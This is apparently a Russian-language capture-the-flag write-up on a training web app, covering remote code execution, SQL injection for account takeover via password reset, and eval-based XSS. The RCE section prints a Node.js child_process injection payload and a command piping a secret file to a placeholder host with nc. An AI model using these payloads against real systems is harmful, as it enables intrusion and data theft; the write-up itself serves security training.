

# RCE
## Описание уязвимости

https://www.wallarm.com/what/the-concept-of-rce-remote-code-execution-attack

https://cwe.mitre.org/data/definitions/94.html

## Exploit

Поле ввода скидки позволяет выполнять команды через внедрение следующего кода:
require('child_process').exec(COMMAND)

Поле ввода:

Пример перехваченого и измененного запроса:

Результаты выполненых команд можно передать на хост через nc. Включаем nc на хосте на прослушивание на порту 8080 и получаем вывод команды:

В качестве команды передаем cat SuperSecretData | nc #ip# #port#

Получаем флаг:

# SQLi
## Описание уязвимости

https://portswigger.net/web-security/sql-injection
https://cwe.mitre.org/data/definitions/89.html

## Exploit

Функционал изменения почты в личном кабинете пользователя не фильтрует пользовательский ввод почты и использует для этого sql запрос.
Поле ввода:

При попытке изменения sql запроса, получаем Validation error:

При добавлении условия where email='#email#' данной ошибки нет, но до данного условия необходимо догадаться, так скажем smart bruteforce.

Проверим восстановление пароля по новой почте. Отправляем запрос и видим письмо со ссылкой на почте.

Воспользуемся ссылкой, изменим пароль и зайдем в профиль с новыми данными. 

Получаем флаг в личном кабинете пользователя, данные которого мы изменили.

# XSS
## Описание уязвимости

https://portswigger.net/web-security/cross-site-scripting
https://cwe.mitre.org/data/definitions/79.html

## Exploit

В поле сброса пароля, от нас требуют ввести почту. При вводе видим, что вызывается alert, где в тексте выводится то, что мы ввели и какой-то фиксированный текст. 

Предположим, что alert выполняется через функцию eval. Поэтому попробуем ввести такой ввод, чтобы помимо обычного alerta, выполнился и наш alert.

У нас выполнился наш alert, и мы можем добавить еще один, чтобы вытащить флаг. Таким образом мы выполним нужный alert, который вытащит флаг.

